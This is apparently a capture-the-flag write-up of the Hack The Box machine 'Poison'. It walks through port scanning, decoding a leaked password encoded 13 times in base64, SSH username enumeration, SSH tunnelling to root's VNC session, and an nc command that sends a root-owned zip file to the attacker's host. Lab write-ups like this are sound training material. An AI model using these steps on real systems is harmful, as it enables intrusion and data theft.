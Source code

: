```yaml
---
title: "Poison"
date: 2023-08-31T17:08:15+02:00
tags: ["privesc","web","linux","ssh"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Linux machine with a website which has a base64 encoded password leaked on a directory. We privEsc thanks to do a portforwarding on a VNC port."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Poison
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Poison

![/HTB/poison-icon.png](/HTB/poison-icon.png)

## Tools Used

- nmap
- searchsploit
- vncviewer

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFLpOCLU3rRUdNNbb5u5WlP+JKUpoYw4znHe0n4mRlv5sQ5kkkZSDNMqXtfWUFzevPaLaJboNBOAXjPwd1OV1wL2YFcGsTL5MOXgTeW4ixpxNBsnBj67mPSmQSaWcudPUmhqnT5VhKYLbPk43FsWqGkNhDtbuBVo9/BmN+GjN1v7w54PPtn8wDd7Zap3yStvwRxeq8E0nBE4odsfBhPPC01302RZzkiXymV73WqmI8MeF9W94giTBQS5swH6NgUe4/QV1tOjTct/uzidFx+8bbcwcQ1eUgK5DyRLaEhou7PRlZX6Pg5YgcuQUlYbGjgk6ycMJDuwb2D5mJkAzN4dih
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKXh613KF4mJTcOxbIy/3mN/O/wAYht2Vt4m9PUoQBBSao16RI9B3VYod1HSbx3PYsPpKmqjcT7A/fHggPIzDYU=
|   256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrg2EBbG5D2maVLhDME5mZwrvlhTXrK7jiEI+MiZ+Am
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

We have two open ports up and running, one with a website and the other one for **ssh**.

## Enumeration

As always I am going to enumerate the **http** page.

![Untitled](/HTB/poison-1.png)

It like a **php** browser, one of the sites to be tested is pretty interesting `listfiles.php` 

![Untitled](/HTB/poison-2.png)

We can see an array of **php** files maybe is performing a ls command on background.

```bash
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

I checked each one and `pwdbackup.txt` leaks a **base64 encoded password** and also a message telling us that has been encoded 13 times.

## Exploiting

So I decided to make a bash script in order to decode it 13 times and output the decoded password.

```bash
#!/bin/bash

encoded_text="Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xV$
decoded_text=$encoded_text

for i in {1..13}
do
    decoded_text=$(echo "$decoded_text" | base64 -d)
done

echo "$decoded_text"
```

Once executed we have a password but not a username.

```
Charix!2#4%6&8(0
```

As the ssh version is older we can enumerate user with an exploit

![Untitled](/HTB/poison-3.png)

We can execute the exploit with the following command

```bash
usage: sshenum.py [-h] [-p PORT] target username
```

So I decided to try with admin, **root** and **posion** and **charix**. The last one because is extracted from the password.

**root** and **charix** are valid usernames.

![Untitled](/HTB/poison-4.png)

![Untitled](/HTB/poison-5.png)

## Gaining an Initial Foothold

After attempting the two usernames with the decoded password, I successfully logged in as **charix**.

![Untitled](/HTB/poison-6.png)

Let’s cat the **user’s flag**.

![Untitled](/HTB/poison-8.png)

![Untitled](/HTB/poison-9.png)

With the id command we can see that we don’t have permissions as root so we need to **privEsc**.

## Escalating Privilege

Checking at the charix’s home directory we can see a `secret.zip`.

![Untitled](/HTB/poison-10.png)

The file owner is **root** so let’s try to unzip it.

When I try to unzip it unzip asks you for a password but doesn’t let you put it before it closes. 

So I decide to unzip it on my local machine sending the file via nc.

```bash
nc 10.10.14.9 4444 < secret.zip
```

The bellow command on the remote machine and the above command on the local machine.

```bash
nc -lv 4444 > secret.zip
```

Once we get the zip I try to unzip it with the same password as before and it worked.

![Untitled](/HTB/poison-11.png)

The zip has only one file with a **non-ascii characters**.

Interesting but not so useful right now.

If we check if there are more open ports, we can see two unexpected ports which **nmap** doesn’t shown like **5801** and **5901**.

```bash
netstat -na -p tcp
```

![Untitled](/HTB/poison-12.png)

This ports are typically used for **VNC**. By checking the processes we can see that the vnc process is owned by the **root**.

```bash
ps faux
```

```bash
root   529   0.0  1.0  26188 10440 v0- I    12:05     0:00.68 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.
```

Let’s do a **portforwarding** with ssh to the port 5901 in order to connect to vnc root’s dektop.

```bash
ssh -L5901:127.0.0.1:5901 charix@10.10.10.84
```

Now, we need to download **VNC**, we can do it with brew.

```bash
brew install tiger-vnc
```

Once installed let’s run vnc

```bash
vncviewer 127.0.0.1:5901
```

![Untitled](/HTB/poison-14.png)

The program asks you for a password, I tried to put **default/common passwords** and to reutilize the previous password but failed.

Later I realized that we have a secret file with a password maybe if we pass it as argument we can get in.

```bash
vncviewer -passwd secret 127.0.0.1:5901
```

![Untitled](/HTB/poison-15.png)

We are in.

![Untitled](/HTB/poison-16.png)

**Thank you for reading, and happy hacking! 😄**